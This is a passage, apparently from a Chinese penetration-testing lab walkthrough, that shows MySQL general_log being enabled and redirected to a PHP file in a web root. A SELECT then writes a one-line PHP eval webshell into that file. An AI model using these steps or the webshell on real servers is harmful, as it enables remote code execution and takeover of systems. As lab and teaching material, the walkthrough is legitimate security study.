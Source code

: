4. 若general_log为OFF，则修改这个值，开启日志保存

   ``` sql
   set global general_log='on';
   ```

5. 修改日志保存的路径(general_log_file值)

   ``` sql
   SET global general_log_file='C:/phpStudy/WWW/2.php'
   ```


6. 查询是否成功更改

   ``` sql
   show variables like '%general%'
   ```

   ![6.png](img/ATT&CK1/2/6.png)

7. 执行SQL语句写入一句话木马

   ``` sql
   SELECT '<?php @eval($_POST[1]);?>';
   ```

